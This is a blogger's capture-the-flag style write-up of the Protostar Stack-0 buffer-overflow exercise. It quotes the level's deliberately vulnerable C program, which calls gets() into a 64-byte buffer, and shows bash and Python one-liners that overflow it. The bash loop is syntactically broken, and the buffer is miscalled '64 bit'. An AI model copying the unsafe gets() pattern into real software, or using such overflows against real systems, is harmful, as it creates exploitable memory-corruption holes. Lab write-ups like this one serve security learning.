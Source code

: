 ```yaml
---
author: "faizul"
title: "Protostar Stack-00"
date: 2020-09-30T12:00:06+09:00
description: "Exploit-Exercise Protostar Stack-0"
draft: false
hideToc: false
enableToc: true
enableTocContent: false
image: images/protostar/protostar.jpeg
tags: 
- reverse-engineering
- protostar
- exploit-exercise
- buffer-overflow
categories:
- writeup
- reverse-engineering
- buffer-overflow
---
```

 
Low-level exploit, reverse engineering always excite me. Eventhough i did attended one class during Bachelor Degree and learn about Assembly in X86, i only admire this skillset when i relly grind myslef into cybersec and pentest. I try to attend few free training during DefCon and other InfoSec Conference besides doing tutorial from various blog such as MalwareUnicorn, netgarageio and the Exploit Exercise itself. 

This post will be the first entry of me doing Protostar VM by exploit-exercise. While the Stack-0 will be easiest form of Buffer Overflow(for entry), this VM might help me to prepare my aim to gain OSCP in 2021. Enjoy my dumb writing. 

## Problem
This level introduces the concept that memory can be accessed outside of its allocated region, how the stack variables are laid out, and that modifying outside of the allocated memory can modify program execution.

This level is at /opt/protostar/bin/stack0

## Code provided

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```
## Binary execution
![4052c843babad3a3f3a121fa05eaf88f.png](/images/protostar/f6f2ffd342c546f686de2632a76ac35a.png)

## Solution 
Since the code show how `char buffer` only hold `[64]` bit value, lets run this first with 3 bit value. Next, we going to run the binary with value up to 64. To do this, we can use bash script to generate/print value 64 above.



```bash
user@protostar:~$ for a in {1..65}; echo -n a; done

aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

you have changed the 'modified' variable
```

Ok, looks like we successfully overwrite the memory area by exploiting the memory buffer overflow technique. 

To make the payload in a form of human readable and beautiful, lets just use python. 

```python
python -c "print 'A' * 65" | /opt/protostar/bin/stack0
```

